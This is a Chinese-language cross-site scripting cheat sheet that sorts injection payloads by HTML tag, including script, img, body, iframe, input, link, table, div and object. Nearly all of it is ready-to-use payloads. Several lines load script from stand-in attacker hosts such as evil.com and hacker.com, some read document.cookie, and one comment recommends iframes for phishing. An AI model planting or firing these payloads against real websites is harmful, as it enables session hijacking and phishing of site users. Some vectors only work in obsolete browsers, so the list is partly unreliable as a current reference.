 

```
<script>标签：可以引用外部的JavaScript代码，也可以将代码插入脚本标记
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
<script> alert("hack")</script>   #弹出hack
<script>alert(document.cookie)</script> #弹出cookie
```

```
<img>标签：
<img  src=1  onerror=alert("hack")>
<img  src=1  onerror=alert(/hack/)>
<img  src=1  onerror=alert(document.cookie)>  #弹出cookie
<img  src=1  onerror=alert(123)>      注：对于数字，可以不用引号
<img  src="javascript:alert("XSS");">
<img  dynsrc="javascript:alert('XSS')">
<img  lowsrc="javascript:alert('XSS')">
```

```
<body>标签：
<body onload=alert("XSS")>  #使用onload属性在标记内部传递XSS有效内容
<body background="javascript:alert("XSS")"> #或其他更加模糊的属性在标记内部传递XSS有效内容
```

```
<iframe>标签：
<iframe src=”http://evil.com/xss.html”>

该<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

```

```
<input>标签：若标记的type属性<input>设置为image，则可以对其进行操作以嵌入脚本
<input type="image" src="javascript:alert('XSS');">
```

```
<link>标签：用来连接外部的样式表可以包含的脚本
<link rel="stylesheet" href="javascript:alert('XSS');">
```

```
<table>标签：可利用background属性来引用脚本，而非image
<table background="javascript:alert('XSS')">
<td background="javascript:alert('XSS')">
```

```
<div>标签：指定一个背景从而嵌入的脚本，类似table
<div style="background-image: url(javascript:alert('XSS'))">
<div style="width: expression(alert('XSS'));">
```

```
<object>标签：可用于从外部站点脚本包含
<object type="text/x-scriptlet" data="http://hacker.com/xss.html">
```

